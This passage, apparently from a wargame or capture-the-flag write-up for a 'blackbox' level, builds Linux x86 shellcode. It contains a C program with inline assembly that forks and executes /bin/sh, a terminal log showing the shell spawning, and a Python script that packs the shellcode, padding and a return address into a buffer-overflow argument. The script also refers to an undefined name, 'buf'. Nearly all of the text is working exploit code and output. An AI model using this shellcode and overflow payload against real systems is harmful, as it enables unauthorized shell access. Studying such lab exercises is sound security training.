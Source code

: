 ```c
#include <sys/ptrace.h>
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[])
{
    int pid;
    pid = getpid();
    ptrace(PTRACE_TRACEME, 0, NULL, NULL);
    __asm__(
        "xorl %eax,%eax\n\t"
        "movb $0xbe,%al\n\t"
        "int $0x80\n\t"
        "test %eax,%eax\n\t"
        "je child\n\t"
        "xorl %eax,%eax\n\t"
        "xorl %ebx,%ebx\n\t"
        "dec %ebx\n\t"
        "xorl %ecx,%ecx\n\t"
        "xorl %edx,%edx\n\t"
        "xorl %esi,%esi\n\t"
        "movb $0x72,%al\n\t"
        "int $0x80\n"
        "child:\n\t"
        "xorl  %eax,%eax\n\t"
        "pushl %eax\n\t"
        "pushl $0x68732f2f\n\t"
        "pushl $0x6e69622f\n\t"
        "movl  %esp, %ebx\n\t"
        "pushl %eax\n\t"
        "pushl %ebx\n\t"
        "movl  %esp, %ecx\n\t"
        "xorl  %edx, %edx\n\t"
        "movb  $0x0b, %al\n\t"
        "int $0x80"
    );
    return 0;
}
```

Let's give it a try:

```
level7@blackbox:/tmp$ gcc -o shellcode7 shellcode7.c
level7@blackbox:/tmp$ ./shellcode7
sh-3.1$
```

It works.  Let's extract the raw code, and embed it in a script:

```python
import struct

SHELLCODE = "31c0b0becd8085c0740f31c031db4b31c931d231f6b072cd8031c050682f2f7368682f62696
e89e3505389e131d2b00bcd80".decode("hex")
BUF = 0xbffefcf8

ARG = SHELLCODE
ARG += 'X' * (0x3f0 - 0xec - len(ARG))
ARG += struct.pack("<l", buf)
ARG += 'X' * (0xd9a0 - len(ARG))


print ARG
```